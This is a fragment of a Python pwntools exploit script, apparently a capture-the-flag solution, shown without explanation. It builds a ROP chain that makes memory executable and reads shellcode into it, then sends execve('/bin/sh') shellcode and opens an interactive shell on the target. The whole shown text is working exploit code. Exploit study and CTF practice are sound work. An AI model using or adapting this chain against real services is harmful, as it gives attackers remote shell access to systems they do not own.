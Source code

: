 ``` python
    payload += p32(bp['canary_backup'] & 0xfffff000) # argument #1
    payload += p32(0x1000)              # argument #2
    payload += p32(0x7)                 # argument #3
    payload += p32(read)                # ret #3
    payload += p32(bp['canary_backup']) # ret #4
    payload += p32(0)                   # argument #1
    payload += p32(bp['canary_backup']) # argument #2
    payload += p32(0x100)               # argument #3
    s.sendline(payload)

    # send shellcode
    payload = asm(shellcraft.execve("/bin/sh", 0, 0))
    s.sendline(payload)

    s.interactive()

if __name__=='__main__':
    main()
```